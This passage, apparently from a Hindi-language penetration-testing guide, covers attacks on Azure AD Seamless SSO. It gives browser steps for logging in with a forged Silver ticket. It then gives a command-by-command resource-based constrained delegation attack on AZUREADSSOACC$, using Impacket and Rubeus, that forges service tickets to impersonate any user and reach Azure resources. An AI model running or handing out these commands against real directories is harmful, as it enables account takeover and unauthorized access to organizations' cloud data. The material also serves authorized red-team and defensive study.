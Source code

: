 Silver टिकट का उपयोग करने के लिए, निम्नलिखित चरणों का पालन किया जाना चाहिए:

1. **ब्राउज़र प्रारंभ करें:** Mozilla Firefox को लॉन्च किया जाना चाहिए।
2. **ब्राउज़र कॉन्फ़िगर करें:**
- **`about:config`** पर जाएं।
- [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) के लिए वरीयता को निर्दिष्ट [मान](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) पर सेट करें:
- `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
- Firefox `Settings` पर जाएं > `Allow Windows single sign-on for Microsoft, work and school accounts` के लिए खोजें और इसे सक्षम करें।
3. **वेब एप्लिकेशन तक पहुँचें:**
- एक वेब एप्लिकेशन पर जाएं जो संगठन के AAD डोमेन के साथ एकीकृत है। एक सामान्य उदाहरण है [login.microsoftonline.com](https://login.microsoftonline.com/)।
4. **प्रमाणीकरण प्रक्रिया:**
- लॉगिन स्क्रीन पर, उपयोगकर्ता नाम दर्ज करें, पासवर्ड फ़ील्ड को खाली छोड़ दें।
- आगे बढ़ने के लिए, TAB या ENTER दबाएं।

> [!WARNING]
> यह **MFA को बायपास नहीं करता यदि उपयोगकर्ता में सक्षम है**।

### On-prem -> Cloud via Resource Based Constrained Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

हमला करने के लिए आवश्यक है:

- `WriteDACL` / `GenericWrite` पर `AZUREADSSOACC$`
- एक कंप्यूटर खाता जिसे आप नियंत्रित करते हैं (हैश और पासवर्ड) - आप एक बना सकते हैं

1. चरण 1 – अपना खुद का कंप्यूटर खाता जोड़ें
- `ATTACKBOX$` बनाता है और इसका SID/NTLM हैश प्रिंट करता है। कोई भी डोमेन उपयोगकर्ता यह कर सकता है जब MachineAccountQuota > 0 हो।
```bash
# Impacket
python3 addcomputer.py CONTOSO/bob:'P@ssw0rd!' -dc-ip 10.0.0.10 \
-computer ATTACKBOX$ -password S3cureP@ss
```
2. चरण 2 – `AZUREADSSOACC$` पर RBCD प्रदान करें - आपकी मशीन का SID `msDS-AllowedToActOnBehalfOfOtherIdentity` में लिखता है।
```bash
python3 rbcd.py CONTOSO/bob:'P@ssw0rd!'@10.0.0.10 \
ATTACKBOX$ AZUREADSSOACC$

# Or, from Windows:
$SID = (Get-ADComputer ATTACKBOX$).SID
Set-ADComputer AZUREADSSOACC$ `
-PrincipalsAllowedToDelegateToAccount $SID
```
3. चरण 3 – किसी भी उपयोगकर्ता (जैसे कि alice) के लिए TGS बनाएं
```bash
# Using your machine's password or NTLM hash
python3 getST.py -dc-ip 192.168.1.10 \
-spn HTTP/autologon.microsoftazuread-sso.com \
-impersonate alice \
DOMAIN/ATTACKBOX$ -hashes :9b3c0d06d0b9a6ef9ed0e72fb2b64821

# Produces alice.autologon.ccache

#Or, from Windows:
Rubeus s4u /user:ATTACKBOX$ /rc4:9b3c0d06d0b9a6ef9ed0e72fb2b64821 `
/impersonateuser:alice `
/msdsspn:"HTTP/autologon.microsoftazuread-sso.com" /dc:192.168.1.10 /ptt
```
आप अब **TGS का उपयोग Azure संसाधनों तक पहुंचने के लिए कर सकते हैं जैसे कि आप impersonated उपयोगकर्ता हैं।**
